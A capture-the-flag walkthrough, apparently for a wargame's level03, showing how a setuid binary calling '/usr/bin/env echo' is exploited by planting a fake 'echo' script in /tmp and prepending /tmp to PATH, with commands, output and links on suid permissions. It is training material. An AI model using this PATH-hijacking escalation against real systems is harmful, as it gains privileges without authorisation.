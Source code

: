 # Level03 : find flag03

## Tutorial

1. Launching the `level03` binary : it says `Exploit me`
2. Checking the binary `strings ~/level03 | grep Exploit`:
   - result : `/usr/bin/env echo Exploit me`
   - we can see here that it loads the `env` for the command, we can use it by modifying the `$PATH`
3. Checking the permissions for `level03` binary, `ls -l level03` :  
   - result : `-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`
   - we can see here the `setuid` and `setgid` are set ! This means that when we execute `level03`, we execute it with the `uid` of `flag03` and the `gid` of `level03`.
4. Checking available folders where we can write and execute scripts with `ls -l /` :
   - result : `d-wx-wx-wx  4 root root  100 Apr 10 08:09 tmp`
   - we can write and execute programs in the `/tmp` folder
5. Writing program in `/tmp/echo`, `cat /tmp/echo` :
   - result : `getflag`
   - permissions (`ls -l /tmp/echo`): `----r-x--- 1 level03 level03 8 Apr 10 08:10 /tmp/echo`
   - these are the minimum permissions for `/tmp/echo` because we are executing `~/level03` with the `gid` of `level03` so it needs to be able to `r` and `x`, then `getflag` is executed with the `uid` of `flag03`
6. Executing `PATH=/tmp:$PATH ~/level03` by passing `/tmp` as file containing binaries
7. get flag for level03 !

## Notes

- Create file `/tmp/echo`
  - content : `getflag`
- Execute `PATH=/tmp:$PATH echo lol`
  - result : `lol`
- Execute `PATH=/tmp:$PATH /usr/bin/env echo`
  - result : `Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)`
- Summary : `/usr/bin/env` loads the environment variables of the user, this is necessary for the exploit.
- This is done because the `cat /etc/environment` set the `$PATH` variable for all users :
  - result : `PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"`
  - Source : https://stackoverflow.com/questions/1641477/how-to-set-environment-variable-for-everyone-under-my-linux-system
- Interesting discussion on the use of `/usr/bin/env` :
  - url : https://unix.stackexchange.com/questions/29608/why-is-it-better-to-use-usr-bin-env-name-instead-of-path-to-name-as-my

## Additional resources

- Permissions (suid, sgid, sticky bit)
  - https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/
  - https://linux.goffinet.org/administration/securite-locale/permissions-linux/
  - https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits
- Alias don't execute in scripts by default, need to set the shell as interactive :
  - possible other solution, doesn't work here (check link) : `alias echo=getflag`
  - https://stackoverflow.com/questions/30130954/alias-doesnt-work-inside-a-bash-script
